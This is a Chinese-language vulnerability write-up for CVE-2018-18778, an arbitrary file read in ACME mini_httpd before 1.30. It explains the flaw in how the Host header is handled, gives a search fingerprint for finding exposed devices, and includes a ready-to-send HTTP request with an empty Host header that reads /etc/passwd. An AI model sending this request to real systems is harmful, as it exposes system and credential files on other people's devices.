

# ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

## 漏洞描述

漏洞原因是由于没有过滤Http包头的特定字段，导致可以构造访问系统文件的路径，从而导致可访问任意文件，攻击者可以利用该漏洞读取设备的任意文件，这将严重威胁采用Mini_httpd的设备的安全性。

## 漏洞影响

<a-checkbox checked>ACME mini_httpd before 1.30</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ACME-mini_httpd"</a-checkbox></br>

## 漏洞复现

指纹信息


在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的HOST/FILE文件。

当`HOST=example.com、FILE=index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。

当`HOST为空、FILE=etc/passwd`的时候，上述语句结果为`/etc/passwd`。

```java
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

发送请求包, 置空 host

```java
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: http://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

